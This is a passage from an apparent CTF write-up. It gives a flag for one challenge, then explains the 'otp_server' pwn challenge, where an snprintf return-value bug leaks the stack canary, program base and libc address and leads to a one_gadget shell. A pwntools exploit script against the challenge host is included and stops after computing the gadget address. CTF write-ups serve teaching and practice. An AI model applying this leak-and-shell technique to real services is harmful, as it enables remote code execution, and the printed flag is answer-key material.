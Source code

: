 ![](https://i.imgur.com/36oKyP4.png)


flag: `fb{RandumbNumbers}`


## Pwn

### otp_server
The return value of `snprintf(target, "%0x100s", src)` is the size of the source string which we want to copy.

Thus, we can simply leak the other values on the stack. e.g. libc, canary, etc.
Due to we can also leak the nonce read from `/dev/urandom`, we are able to write arbitrary bytes on the stack, trigger one_gadget and get shell.

Exploit:
```python
from pwn import *

#r = process('./otp_server')
r = remote('challenges3.fbctf.com', 1338)


def set_key(ctx):
    r.sendafter('>>>', '1')
    r.sendafter(':', ctx)


def encrypt(ctx):
    r.sendafter('>>>', '2')
    r.sendafter(':', ctx)


def get_nounce(gadget):
    for i in range(4, 7):
        print(i)
        while True:
            set_key('A'*0x11 + ('A'*(6-i)) + "\x00")
            encrypt('A'*0x100)
            r.recvline()
            r.recvline()
            r.recvn(0x108)
            r.recvn(9)
            r.recvn((8+(2-i)))
            nouce = u32(r.recvn(4))
            nouce = (nouce >> 24 ) & 0xff
            print('nouce', hex(nouce))
            if (nouce == (gadget>>(((6-i)*8)))&0xff):
                break


set_key('A'*0x30)
encrypt('A'*0x100)
r.recvline()
r.recvline()
r.recvn(0x108)
canary = u64(r.recvn(8))
base = u64(r.recvn(8)) - 0xdd0
libc = u64(r.recvn(8)) - 0x21b97

gadget = libc+0x4f322


```
